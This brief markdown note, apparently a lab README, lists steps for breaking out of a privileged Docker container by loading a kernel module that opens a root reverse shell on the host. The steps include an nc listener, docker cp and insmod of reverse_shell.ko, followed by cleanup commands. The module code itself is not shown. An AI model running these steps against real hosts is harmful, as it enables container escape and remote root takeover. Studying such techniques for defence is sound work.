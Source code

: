 # Linux system module abuse

- imapct
    - reverse host root shell

-Breakout Privileged
    - all
    - actually cap_sys_module

- change reverse_shell.c ip address(ip addr (apt-get install iproute2))

- action
    
    (on host)
    - make 
    - docker run -it --privileged ubuntu:22.04 bash
    - docker cp reverse_shell.ko 2398764aw2:/
    - nc -nvlp 8888 (apt-get install netcat)
    - insmod reverse_shell.ko (apt-get install kmod)


- recovery command
    - make clean
    - rmmod reverse_shell